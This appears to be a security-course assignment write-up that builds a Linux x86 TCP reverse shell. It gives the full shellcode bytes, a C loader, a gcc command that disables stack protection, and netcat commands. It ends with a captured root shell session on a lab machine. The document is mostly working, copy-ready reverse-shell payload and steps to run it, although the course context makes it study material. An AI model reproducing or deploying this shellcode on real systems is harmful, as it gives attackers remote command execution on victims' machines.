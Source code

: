 # Assignment 2: Linux x86 TCP Reverse Shell

To generate the shellcode, run the python wrapper script `tcp_reverse_shell_x86.py` and supply alistening host and port:

```bash
python3 tcp_reverse_shell_x86.py -l 192.168.105.151 -p 4444
[*] Generating shellcode for x86 TCP reverse shell on 192.168.105.151:4444
[*] Shellcode length: 104 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

Copy the shellcode output and paste into the `code` variable of `shellcode.c`:

```C
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x3f\x57\x96\x68\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80";
...
```

Compile the shellcode using gcc:

```bash
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```

Start a netcat listener on the remote host:

```bash
nc -nlvp 4444                                                                                                                           1 ⨯
listening on [any] 4444 ...
```

Run the compiled binary:

```bash
./shellcode 
Shellcode Length: 116
```

Connect to the reverse shell over the chosen port using netcat:

```bash
nc -nlvp 4444                                  
listening on [any] 4444 ...
connect to [192.168.105.151] from (UNKNOWN) [192.168.105.151] 46240
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---
